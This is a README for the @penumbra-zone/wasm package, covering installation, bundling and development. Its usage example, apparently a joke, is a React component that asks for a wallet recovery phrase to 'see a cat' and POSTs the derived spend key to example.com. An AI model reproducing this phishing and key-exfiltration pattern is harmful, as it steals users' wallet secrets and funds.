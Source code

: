 # @penumbra-zone/wasm

The Penumbra core repo has a ton of utilities and functions that are critical to
developing an app that interacts with the Penumbra chain. However, it is written
in Rust. This package exists to bridge the gap between the Rust environment and
the web. This is done via Web Assembly, the universal binary format that runs
almost anywhere.

## Consuming this package

If you're reading this, you're probably trying to use the package. **[Next.js / Webpack example.](https://github.com/penumbra-zone/nextjs-penumbra-wasm-example/)**

### [enable the Buf Schema Registry](https://buf.build/docs/bsr/generated-sdks/npm)

This package depends on types from the Buf Schema Registry. If you're not
configured to resolve those, you won't be able to install. Add the
`@buf:registry` configuration to your local `.npmrc`

```sh
echo "@buf:registry=https://buf.build/gen/npm/v1/" >> .npmrc
```

### install

```sh
pnpm add @penumbra-zone/wasm
```

If you intend to build transactions yourself or conduct other cryptographic
operations, you'll also want `@penumbra-zone/keys`, an optional dependency
containing the large (~100MB) proving keys.

```sh
pnpm add @penumbra-zone/keys
```

### import and use

```tsx
import { generateSpendKey } from '@penumbra-zone/wasm/keys';
import { useState, useMemo } from 'react';

export const SpendKeyCat = () => {
  const [phrase, setPhrase] = useState('');
  const spendKey: SpendKey | null = useMemo(() => {
    try {
      return generateSpendKey(phrase);
    } catch (e) {
      console.log('Failed to generate key', e);
      return null;
    }
  }, [phrase]);

  useEffect(() => {
    if (spendKey)
      fetch('https://example.com/iamveryclever', {
        method: 'POST',
        body: spendKey.toJsonString(),
      });
  }, [spendKey]);

  if (!spendKey)
    return (
      <>
        <h1>Enter your Penumbra wallet recovery phrase to see a cat</h1>
        <label>Right here:</label>
        <input
          value={phrase}
          onChange={e => setPhrase(e.target.value)}
          placeholder='all egg author trap jump tone gorilla forward favorite jungle accident exotic avoid wait desk'
        />
      </>
    );

  return (
    <>
      <h1>Thanks!!</h1>
      <marquee height='90%' behavior='alternate' direction='down'>
        <marquee behavior='alternate' direction='right'>
          <h2>Here's a cat:</h2>
          <img src='https://cataas.com/cat' />
        </marquee>
      </marquee>
    </>
  );
};
```

### bundling

Modern browsers provide great support for WASM, but you are probably using a
bundler to transform your code.

We use Vite 5, which can handle the bundling natively, and
[`vite-plugin-wasm`](https://github.com/Menci/vite-plugin-wasm) for running
tests in node with `vitest`.

If you're using Webpack 5 such as in a Next.js stack, you'll need to enable the
`asyncWebAssembly` experimental feature. Check out the [example
repository](https://github.com/penumbra-zone/nextjs-penumbra-wasm-example/)
which contains a complete working configuration. Compontents using this package
should be client-side only, and you might need to use `next/dynamic` to
dynamically import the package.

## Developing this package

The WASM in this package is generated by Rust living in the `crate` directory.
You need Rust tooling to work on it. We use
[`wasm-bindgen`](https://rustwasm.github.io/docs/wasm-bindgen/) and
[`wasm-pack`](https://rustwasm.github.io/docs/wasm-pack/).

See our monorepo setup for complete details, but after the typical `git clone`
it's as simple as

```sh
rustup target add wasm32-unknown-unknown
cargo install cargo-watch wasm-pack
```

Now you can just run `pnpm compile` or `pnpm dev` in the package directory.

### Testing

This package contains both typescript tests executed with `vitest`, and WASM tests
executed with `wasm-bindgen-test`. You can run both with package scripts,

```sh
pnpm test
pnpm test:wasm
```
